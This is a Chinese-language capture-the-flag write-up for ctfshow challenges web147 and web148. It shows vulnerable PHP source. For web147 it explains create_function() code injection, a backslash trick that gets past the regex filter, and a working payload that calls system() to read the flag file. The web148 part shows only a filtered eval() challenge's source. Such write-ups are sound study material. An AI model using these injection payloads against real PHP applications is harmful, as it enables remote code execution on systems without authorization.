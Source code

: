 

### web147

```
highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

不会，还是老老实实看wp吧。

考察点：create_function()代码注入

```
create_function('$a','echo $a."123"')

类似于

function f($a) {
  echo $a."123";
}

```

那么如果我们第二个参数传入 echo 1;}phpinfo();//
 就等价于

```
function f($a) {
  echo 1;}phpinfo();//
}
从而执行phpinfo()命令
fuzz后发现%5c可以绕过这个正则表达式
```

**payload**

```
get: ?show=echo 123;}system('tac f*');//
post: ctf=%5ccreate_function
```



### web148

```
include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

